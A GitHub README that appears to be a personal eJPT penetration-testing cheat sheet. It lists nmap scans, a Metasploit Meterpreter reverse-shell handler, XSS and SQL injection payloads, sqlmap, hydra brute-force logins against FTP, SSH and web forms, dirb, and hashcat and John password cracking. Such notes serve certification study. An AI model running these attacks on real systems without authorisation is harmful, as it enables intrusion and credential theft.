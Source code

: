 # ejpt-cheet-sheet
Wireshark:

TCP:
```right click on it then click on Follow then click on TCP streem```

UDP:
```right click on it then click on Follow then click on UDP streem```


|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

Nmap:
```nmap -sn [the ip]/24 -oN file.txt
nmap scan types

-sS: TCP SYN Scan (aka Stealth Scan)
-sT: TCP Connect Scan 
-sU: UDP Scan
-sn: Port Scan
-sV: Service Version information
-O: Operating System information
nmap 10.10.10.10 #Top 1000 ports (default scan)
nmap -F 10.10.10.10 #Top 100 ports```


|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|



Mataspolite:
```search (the payload name)

use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp # the payload
set RHOST           # the target host
run
```


|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

xss:
```
<script>alert(document.cookie)</script>
><img src=x onerror=alert(1)>
```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

finding ip's from websites:
```dig exampil.com

ip route add 192.168.10.0/24 via 10.175.3.1 -- اذا حبينا نضيف الجهاز المخفي```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

sqlmap:
```sqlmap -u ‘http://example.com/view.php?id=1141’ -p id
-u    == url
-p    == paramater
sqlmap -u "http://example.com/view.php?id=1141" --dbs == to get the database name```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

hydra:
```hydra -L users.txt -P pass.txt <service://server> 
hydra -l admin -P pass.txt -f ftp://10.10.10.10
hydra -l root -P pass.txt 192.168.1.105 -t 4 ssh
hydra -l root -P pass.txt <ssh ip>  ssh
ftp <IP>        # enter 'anonymous' as username and password
hydra -U ftp #Hydra uses a module for each service to attack. To get information about a module this command can be used
hydra -L users.txt -P pass.txt <service://server IP> <options>
hydra -L admin -P pass.txt -f ftp://10.10.10.10 #Stop attacking on finding first successful hit for user admin
hydra 10.10.10.10 http-post-form "/login.php:user=^USER^&pass=^PASS^:statement for incorrect login" -L /usr/share/ncrack/minimal.usr -P /etc/john/rockyou.txt -f -V #Attacking http post form
```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

drip:
```dirb http://<IP>/
dirb http://<IP>/ <dictionary_file_path>    # Use dictionary other than default one
dirb http://<IP>/dir -u admin:admin    # When you want to bust recursively but a dir asks for username password which you know already
dirb http://10.10.5.1/ <wordlist path>
dirb http://10.10.5.1/ -u admin:admin #for HTTP authentication
dirb http://10.10.5.1/ <wordlist path>
dirb http://10.10.5.1/ -u admin:admin #for HTTP authentication
```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

hashcat:
```
hashcat -m 0 -a 0 exam.hash file.dict
hashcat -m 0 -a 0 exam.hash file.dict -r rule/custom.rule #The rule file contains the rules to create mangled words such as p@ssword, PaSSworD https://hashcat.net/wiki/doku.php?id=rule_based_attack 
hashcat -m 0 -a 3 exam.hash ?l?l?l?l?l?a #mask attack https://hashcat.net/wiki/doku.php?id=mask_attack
```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

john the ripper:
```
john hashfile.txt
john --wordlist=/path/to/your/wordlist.txt hashfile.txt
john --format=ntlm hashfile.txt
john --list=formats #all types of passwords we can crack
john -incremental -users:<users list> <file to crack> #if you want to crack only certain users from the password database such as /etc/shadow file
john --show crackme #Check cracked password after completion of cracking session, where crackme is the password database file
john -wordlist=<wordlist> -rules <file to crack> #rules are used for cracking mangled words
```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

tips:
```
sql injection

and 1=1; -- -
or 'a'='a'; -- -

hydra,john,hashcat = 
brute force

SHOW databases; #show all databases
SHOW tables FROM databases; #show tables from a database
USE database; #select a database
SELECT * FROM table; #show everything in a certain table
mysql -u USERNAME -pPASSWORD -h <ip host>
directory brute force


'anonymous' as username and password
RCE = remote code execution
xss = cross site scripting
sql == db
ftp = file transfer protocl
ssh = Secure Shell

routting -- توجيه
route -- check routers
```
